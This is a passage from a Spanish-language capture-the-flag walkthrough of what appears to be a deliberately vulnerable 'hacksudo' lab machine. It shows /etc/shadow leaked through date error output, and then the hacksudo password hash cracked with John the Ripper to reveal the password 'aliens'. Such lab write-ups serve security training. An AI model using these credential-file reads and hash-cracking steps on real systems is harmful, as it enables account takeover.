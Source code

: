 ```
date: invalid date 'systemd-network:*:18714:0:99999:7:::'
date: invalid date 'systemd-resolve:*:18714:0:99999:7:::'
date: invalid date 'messagebus:*:18714:0:99999:7:::'
date: invalid date 'tss:*:18714:0:99999:7:::'
date: invalid date 'dnsmasq:*:18714:0:99999:7:::'
date: invalid date 'usbmux:*:18714:0:99999:7:::'
date: invalid date 'rtkit:*:18714:0:99999:7:::'
date: invalid date 'pulse:*:18714:0:99999:7:::'
date: invalid date 'speech-dispatcher:!:18714:0:99999:7:::'
date: invalid date 'avahi:*:18714:0:99999:7:::'
date: invalid date 'saned:*:18714:0:99999:7:::'
date: invalid date 'colord:*:18714:0:99999:7:::'
date: invalid date 'geoclue:*:18714:0:99999:7:::'
date: invalid date 'hplip:*:18714:0:99999:7:::'
date: invalid date 'Debian-gdm:*:18714:0:99999:7:::'
date: invalid date 'hacksudo:$6$cOv4E/VKAe0EVwV4$YScCx10zfi7g4aiLY.qo8QPm2iOogJea41mk2rGk/0JM5AtnrmiyTN5ctNJ0KTLS5Iru4lHWYPug792u3L/Um1:18721:0:99999:7:::'
date: invalid date 'systemd-coredump:!!:18714::::::'
date: invalid date 'sshd:*:18714:0:99999:7:::'
date: invalid date 'mysql:!:18720:0:99999:7:::'
```

Veremos el `shadow` al completo, a parte intentaremos crackear la contraseña del usuario `hacksudo`...

```shell
nano hash

#Dentro del nano
hacksudo:$6$cOv4E/VKAe0EVwV4$YScCx10zfi7g4aiLY.qo8QPm2iOogJea41mk2rGk/0JM5AtnrmiyTN5ctNJ0KTLS5Iru4lHWYPug792u3L/Um1
```

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
aliens           (hacksudo)     
1g 0:00:00:01 DONE (2024-06-21 08:45) 0.6211g/s 4770p/s 4770c/s 4770C/s droopy..thesimpsons
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Por lo que vemos la contraseña de `hacksudo` es `aliens`...

```
User = hacksudo
Password = aliens
```
